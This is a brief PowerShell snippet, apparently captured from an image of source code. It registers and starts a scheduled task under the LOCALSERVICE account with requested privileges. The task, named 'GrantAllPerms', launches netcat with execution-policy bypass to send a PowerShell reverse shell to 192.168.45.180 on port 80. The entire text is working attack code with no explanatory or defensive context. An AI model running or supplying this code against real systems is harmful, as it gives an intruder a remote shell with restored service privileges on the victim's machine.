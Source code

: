 ```powershell
$TaskPrincipal = New-ScheduledTaskPrincipal -UserId "LOCALSERVICE" -LogonType ServiceAccount -RequiredPrivilege $Privs

# Create an action for the task
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\Temp\nc.exe 192.168.45.180 80 -e powershell.exe`""

# Create the task 
Register-ScheduledTask -Action $TaskAction -TaskName "GrantAllPerms" -Principal $TaskPrincipal 

# Start the task 
Start-ScheduledTask -TaskName "GrantAllPerms"
```
